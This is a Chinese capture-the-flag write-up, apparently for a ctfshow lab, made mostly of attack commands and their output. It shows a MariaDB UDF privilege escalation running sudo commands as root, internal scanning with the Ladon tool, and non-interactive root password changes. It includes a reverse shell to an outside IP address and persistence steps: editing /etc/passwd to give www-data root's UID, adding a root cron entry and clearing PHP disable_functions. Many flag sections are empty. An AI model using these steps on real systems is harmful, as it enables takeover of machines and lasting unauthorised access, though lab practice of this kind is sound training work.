

## flag_653

ctfshow{5526710eb3ed7b4742232d6d6f9ee3a9}    /secret.txt



## flag_654

### udf提权

上传udf.so

cp /var/www/html/system36d/db/data_you_never_know.db /usr/lib/mariadb/plugin/udf.so  

连接数据库

create function sys_eval returns string soname "udf.so";  

SELECT sys_eval('sudo whoami');

ctfshow{4ab2c2ccd0c3c35fdba418d8502f5da9}     /root/you_win

SELECT sys_eval('sudo cat /root/you_win');

```
祝贺你，你已经完全控制了这台服务器，为你一路以来的坚持和努力，点赞！

                  真不容易啊，师傅好样的！

不过别高兴的太早，这只是第一关，后面还有更艰难的挑战，你准备好了吗！

对了，这是给你的flag 

flag_654=ctfshow{4ab2c2ccd0c3c35fdba418d8502f5da9} 

                                   ——大菜鸡 2021年8月2日02时12�
```

## 内网探测

上传版Landon

mv  /var/www/html/system36d/db/data_you_never_know.db /tmp/Ladon64.lnx.zip.001

mv  /var/www/html/system36d/db/data_you_never_know.db /tmp/Ladon64.lnx.zip.002

mv  /var/www/html/system36d/db/data_you_never_know.db /tmp/Ladon64.lnx.zip.003

mv  /var/www/html/system36d/db/data_you_never_know.db /tmp/Ladon64.lnx.zip.004

mv  /var/www/html/system36d/db/data_you_never_know.db /tmp/Ladon64.lnx.zip.005

mv  /var/www/html/system36d/db/data_you_never_know.db /tmp/Ladon64.lnx.zip.006

```
(www-data:/tmp) $ ./Ladon64.lnx.dat 172.2.82.4/24 OnlinePC > 2.txt
(www-data:/tmp) $ cat 2.txt
LadonGo 3.8 by k8gege
Arch: amd64 OS: linux
User: www-data IsUser
Pid:  2416 Process: Ladon64.lnx.dat
Targe: 172.2.82.4/24
ScanStart: 2021-11-04 10:52:49
Load OnlinePC
PING: 172.2.82.2
PING: 172.2.82.4
PING: 172.2.82.1
PING: 172.2.82.7
PING: 172.2.82.3
PING: 172.2.82.5
PING: 172.2.82.6

(www-data:/tmp) $ ./Ladon64.lnx.dat 172.2.82.4/24 PortScan  > 2.txt
(www-data:/tmp) $ cat 2.txt
LadonGo 3.8 by k8gege
Arch: amd64 OS: linux
User: www-data IsUser
Pid:  2943 Process: Ladon64.lnx.dat
Targe: 172.2.82.4/24
ScanStart: 2021-11-04 10:53:22
Load PortScan
172.2.82.5 80 Open HTTP/1.1 400 Bad Request Server: nginx/1.18.0 Date: Thu, 04 Nov 2021 10:53:30 GMT Content-Type: text/html Content-Length: 157 Connection: close  <html> <head><title>400 Bad Request</title></head> <body> <center><h1>400 Bad Request</h1></center> <hr><center>nginx/1.18.0</center> </body> </html> 
172.2.82.4 80 Open HTTP/1.1 400 Bad Request Server: nginx/1.18.0 Date: Thu, 04 Nov 2021 10:53:30 GMT Content-Type: text/html Content-Length: 157 Connection: close  <html> <head><title>400 Bad Request</title></head> <body> <center><h1>400 Bad Request</h1></center> <hr><center>nginx/1.18.0</center> </body> </html> 
172.2.82.5 3000 Open HTTP/1.1 200 OK X-Powered-By: Express Content-Type: text/html; charset=utf-8 Content-Length: 361 ETag: W/"169-YNst7h2w7VjJ2eAApqMWJ+UiDpU" Date: Thu, 04 Nov 2021 10:53:38 GMT Connection: keep-alive Keep-Alive: timeout=5  <!DOCTYPE html><html><head><title>ctfshow</title><link rel="stylesheet" href="/stylesheets/style.css"><script rel="javascript" href="/javascripts/jquery.js"></script></head><body><h1>ctfshow</h1><p>还是被你找到啦，flag给你flag_667=ctfshow{503a075560764e3d116436ab73d7a560}</p><p>不过你还需要rce me，绝望吗？ </p><p>ctfshow</p></body></html>
172.2.82.5 8888 Open HTTP/1.1 400 Bad Request Server: nginx/1.18.0 Date: Thu, 04 Nov 2021 10:53:46 GMT Content-Type: text/html Content-Length: 157 Connection: close  <html> <head><title>400 Bad Request</title></head> <body> <center><h1>400 Bad Request</h1></center> <hr><center>nginx/1.18.0</center> </body> </html> 
 Finished: 2021-11-04 10:53:46
```


172.2.82.5:80

172.2.82.5:3000

172.2.82.5:8888


linux 免交互式修改密码 2种方式：

```
echo "root:123456" | chpasswd

 yes 123456|passwd root

(echo "123456";sleep 1;echo "123456") | passwd > /dev/null
```


## flag_655


## flag_656


## flag_657


## flag_658


## flag_659


## flag_660


## flag_661


## flag_662


## flag_663


## flag_664


## flag_665


## flag_666


## flag_667

flag_667=ctfshow{503a075560764e3d116436ab73d7a560}

172.2.82.5 3000

内网探测时看到的

## flag_668


## flag_669


## flag_670


## OTher

sh -i >& /dev/tcp/150.109.79.99/8888 0>&1


### 修改Nginx配置 扩大上传大小

```
SELECT sys_eval("sudo sed -i 's/:82:82:/:82:0:/g' /etc/passwd");
SELECT sys_eval("sudo sed -i 's/www-data:x:82:www-data,nginx/www-data:x:82:www-data,nginx,root/g' /etc/group");


SELECT sys_eval("sudo sed -i '/echo index.php;/a\client_max_body_size 200M;' /etc/nginx/nginx.conf ");
sudo nginx -t ;                     #刷新
sudo nginx -s reload ;              #重新加载
```


```
SELECT sys_eval('sudo sed -i 'N;7i*    *    *    *    *    kill -USR2 121' /var/spool/cron/crontabs/root');
SELECT sys_eval('sudo cat  /var/spool/cron/crontabs/root');
SELECT sys_eval("sudo sed -i 's/disable_functions = var_du.*/disable_functions = /g' /usr/local/etc/php/php.ini");
```

